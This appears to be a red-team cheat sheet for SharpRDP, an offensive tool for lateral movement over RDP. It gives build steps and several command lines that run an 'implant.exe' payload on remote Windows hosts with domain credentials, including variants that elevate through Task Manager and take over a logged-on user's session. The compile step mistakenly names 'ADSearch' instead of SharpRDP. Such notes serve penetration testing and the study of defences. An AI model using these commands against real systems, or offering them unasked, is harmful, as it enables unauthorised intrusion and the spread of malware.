 # SharpRDP

## 01 - Compile

Install a targeting pack from this [link](https://dotnet.microsoft.com/en-us/download/dotnet-framework/net481).  Then compile `ADSearch`.

```
C:\> git clone https://github.com/0xthirteen/SharpRDP

C:\> cd SharpRDP

C:\SharpRDP> dotnet build -c Release -p:TargetFrameworkVersion=v4.8.1
```

## 02 - Usage

Regular RDP connection and execution

```
C:\> .\SharpRDP.exe computername=<IP> [username=<domain>\<username> password=<password>] command="<commands>"
```

`exec` program as child process of `cmd` or `powershell`.

```
C:\> .\SharpRDP.exe computername=<IP> [username=<domain>\<username> password=<password>] command="C:\Temp\implant.exe" exec=cmd
```

Connect first host drives

```
C:\> .\SharpRDP.exe computername=<IP> [username=<domain>\<username> password=<password>] command="\\tsclient\C\Temp\implant.exe" connectdrive=true
```

Execute command elevated through task manager.

```
C:\> .\SharpRDP.exe computername=<IP> [username=<domain>\<username> password=<password>] command="C:\Temp\implant.exe\" elevated=taskmgr
```

Add Network Level Authentication

```
C:\> .\SharpRDP.exe computername=<IP> [username=<domain>\<username> password=<password>] command="C:\Temp\implant.exe\" nla=true
```

Ask to take over logon session.

```
C:\> .\SharpRDP.exe computername=<IP> [username=<domain>\<username> password=<password>] command="C:\Temp\implant.exe\" takeover=true
```

---
## References

- [SharpRDP](https://github.com/0xthirteen/SharpRDP)

- [Hacking Articles: Remote Services (Mitre:T1021)](https://www.hackingarticles.in/lateral-movement-remote-services-mitret1021/)